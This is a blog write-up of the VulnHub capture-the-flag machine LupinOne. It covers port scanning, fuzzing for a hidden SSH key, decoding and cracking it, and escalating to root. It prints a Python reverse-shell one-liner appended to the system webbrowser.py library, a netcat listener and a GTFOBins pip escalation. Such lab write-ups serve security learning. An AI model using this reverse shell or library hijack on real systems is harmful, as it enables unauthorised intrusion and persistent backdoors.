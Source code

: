 ```yaml
---
title: Lupin - Writeup
author: Elman Alizadeh
date: 2022-04-28 14:10:00 +0800
categories: [ctf, VulnHub]
tags: [vulnhub, lupin]
---
```


Today we will take a look at Vulnhub: LupinOne. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes.

![Desktop View]({{ "/assets/img/vuln-lupin/1.png" | relative_url }})

## Network scan

Command: sudo nmap -p- -sV -sC -oN nmap/open 192.168.0.110 — open

![Desktop View]({{ "/assets/img/vuln-lupin/2.png" | relative_url }})

Let’s look at the “~ myfiles” extension.

![Desktop View]({{ "/assets/img/vuln-lupin/3.png" | relative_url }})

## FFUF

Command: ffuf -u ‘http://lupin/~FUZZ' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

![Desktop View]({{ "/assets/img/vuln-lupin/4.png" | relative_url }})

![Desktop View]({{ "/assets/img/vuln-lupin/5.png" | relative_url }})

Here we have a username. Now let’s find his private key file. As we know, private keys “.” is written after the symbol.

Command: ffuf -u ‘http://lupin/~secret/.FUZZ' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .txt,.pub -fw 20

![Desktop View]({{ "/assets/img/vuln-lupin/6.png" | relative_url }})

![Desktop View]({{ "/assets/img/vuln-lupin/7.png" | relative_url }})

We found the encrypted text. Let’s look at cyberchef to decrypt. After researching, I found that it was base58

[CyberChef](https://gchq.github.io/CyberChef/)

![Desktop View]({{ "/assets/img/vuln-lupin/8.png" | relative_url }})

Let’s check the connection to the target machine.

![Desktop View]({{ "/assets/img/vuln-lupin/9.png" | relative_url }})

We use the fasttrack.txt file to crack the passphrase password, as stated in the message.

![Desktop View]({{ "/assets/img/vuln-lupin/10.png" | relative_url }})

![Desktop View]({{ "/assets/img/vuln-lupin/11.png" | relative_url }})

```console
Command: echo ‘import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“IP”,4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(“/bin/sh”)’ >> /usr/lib/python3.9/webbrowser.py
```

Command: nc -nvlp 4242

Command: sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py

![Desktop View]({{ "/assets/img/vuln-lupin/12.png" | relative_url }})

![Desktop View]({{ "/assets/img/vuln-lupin/13.png" | relative_url }})

[Gfto/pip](https://gtfobins.github.io/gtfobins/pip/)

![Desktop View]({{ "/assets/img/vuln-lupin/14.png" | relative_url }})

## And now we are the root

![Desktop View]({{ "/assets/img/vuln-lupin/1.gif" | relative_url }})

“If you have any questions or comments, please do not hesitate to write. Have a good days”










